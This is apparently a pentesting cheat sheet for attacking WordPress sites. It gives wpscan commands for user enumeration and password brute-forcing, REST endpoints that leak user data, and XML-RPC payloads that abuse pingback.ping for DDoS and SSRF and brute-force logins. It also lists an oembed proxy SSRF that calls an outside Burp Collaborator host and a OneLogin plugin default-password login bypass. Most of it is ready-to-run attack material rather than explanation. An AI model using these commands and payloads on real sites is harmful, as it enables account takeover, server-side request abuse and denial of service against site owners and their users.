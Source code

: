 #### TOOLS 
- wpscan
  ````
  wpscan --url https://blog.com --enumerate u   ==> user enumeration
  wpscan  -U users.txt -P password.txt  --url https://blog.com
  ````

#### WP-USER ENUMERATION
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff
````
- wp-json/wp/v2/users/
- wp-json/wp/v2/pages  ===> could leak ip addresses
- ?rest_route=/wp/v2/users
You will see json data with user info in response
````
### Bruteforce for password
`wpscan --url http://10.10.23.231/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt  --max-threads 100`

#### xmlrpc.php
send the post request with the following data
- LIST ALL THE METHODS
````
                <?xml version="1.0" encoding="utf-8"?>
                <methodCall> 
                <methodName>system.listMethods</methodName> 
                <params></params> 
                </methodCall>

````
- Check the pingback.ping method is there or not. Perform DDOS
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
- Perform SSRF (Internal PORT scan only)
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
- Bruteforce login credentials
  ```
  <methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
  <param><value>admin</value></param>
  <param><value>pass</value></param>
  </params>
  </methodCall>
  ```
#### CREATE DATABASE
- /wp-admin/setup-config.php?step=1  ===> may give access to create new database if they forgot to configure the database 
 #### Log files exposed
- wp-content/debug.log

#### ssrf through endpoint
- Try to access https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net and the Worpress site may make a request to you.

 ### Is the wordpress using onelogin plugin to allow saml based login? The plugin by default block login using wp-login.php?normal=1 but attacker can use xmlrpc.php to login.
 When a user logs on one of your WordPress sites via OneLogin, the authentication plugin creates a new entry in the WordPress user database with the default password @@@nopass@@@. This wouldn't be a problem if the plugin disabled all normal WordPress authentication methods, but it doesn't
  ```
  attacker can create new post and can do many other functions too
  check out this hackerone report==> https://hackerone.com/reports/138869
  ```
